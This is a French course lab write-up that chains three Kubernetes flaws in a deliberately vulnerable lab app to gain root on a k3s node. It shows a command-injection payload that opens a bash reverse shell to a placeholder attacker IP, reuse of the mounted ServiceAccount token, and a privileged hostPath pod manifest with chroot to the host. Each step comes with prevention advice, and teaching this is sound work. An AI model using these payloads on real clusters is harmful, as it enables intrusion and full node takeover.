





# TP Kubernetes Security — Pentest

Objectif : accéder au nœud k3s en root en enchaînant 3 vulnérabilités.

## 1. Installation du workload vulnérable

```bash
git clone git@github.com:acombe/kubernetes-security-course.git
cd kubernetes-security-course

# Build + push (WSL sans accès internet depuis le container : utiliser docker-compose-host-network.yml)
docker compose build
docker compose push
# Sur Windows : même contournement crane que pour flightbook

kubectl create namespace infres
kubectl apply -f k8s/Vulnnode.yaml

sudo sh -c 'echo "$(hostname -I | awk '"'"'{print $1}'"'"') vulnnode.infres.fr" >> /etc/hosts'
```

Test : `http://vulnnode.infres.fr/lookup.html` → entrer `google.com` → résolution DNS affichée.




---

## Vulnérabilité 1 — Command injection

Le formulaire passe l'input directement à `nslookup` via un `exec()` shell sans sanitization. On injecte une commande après `;` :

```
google.com ; bash -c 'exec bash -i &>/dev/tcp/TON_IP/4444 <&1'
```



Écoute côté attaquant :
```bash
nc -lvnp 4444
```

Une fois le reverse shell obtenu, se connecter proprement via `kubectl exec` :
```bash
kubectl exec -it vulnnode-<pod-id> -n infres -- /bin/bash
```

**Prévention** : ne jamais passer l'input utilisateur à un shell système. Utiliser une lib DNS haut niveau (`dns.lookup()` en Node, `dnspython` en Python) qui n'invoque pas de sous-processus.

---

## Vulnérabilité 2 — ServiceAccount trop permissif

Kubernetes monte automatiquement un token ServiceAccount dans chaque pod (`/var/run/secrets/kubernetes.io/serviceaccount/token`). Le SA du pod a ici le droit `create pod` sur le cluster entier.

```bash
# Depuis le pod
ls /var/run/secrets/kubernetes.io/serviceaccount   # token, ca.crt, namespace

cd /tmp
curl -LO "https://dl.k8s.io/release/$(curl -Ls https://dl.k8s.io/release/stable.txt)/bin/linux/amd64/kubectl"
chmod +x kubectl
./kubectl auth can-i create pod   # → yes
```



**Prévention** : `automountServiceAccountToken: false` dans le Deployment si le pod n'en a pas besoin. Appliquer le principe de moindre privilège sur les ClusterRoles/RoleBindings.

---

## Vulnérabilité 3 — Aucun contrôle sur les pods privilégiés

Sans admission controller, n'importe qui avec le droit `create pod` peut lancer un pod `privileged: true` qui monte le filesystem du nœud.

```yaml
# escape.yaml
apiVersion: v1
kind: Pod
metadata:
  name: cloud-escape-pod
  namespace: infres
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
    - name: root-shell
      image: alpine
      command: ["sh"]
      securityContext:
        privileged: true
      volumeMounts:
        - name: host-root
          mountPath: /host
  volumes:
    - name: host-root
      hostPath:
        path: /
  restartPolicy: Never
```

```bash
./kubectl apply -f escape.yaml
./kubectl exec -it cloud-escape-pod -n infres -- /bin/sh
chroot /host
whoami   # → root
```



**Prévention** : activer `PodSecurity` en mode `restricted` (standard Kubernetes depuis 1.25) ou OPA/Gatekeeper pour interdire `privileged: true`, `hostPath`, `hostNetwork/PID/IPC`.

---

## Résultat

```
Command injection → shell dans le pod vulnnode
→ token ServiceAccount → kubectl create pod
→ pod privilégié + hostPath → chroot /host → root sur le nœud
```
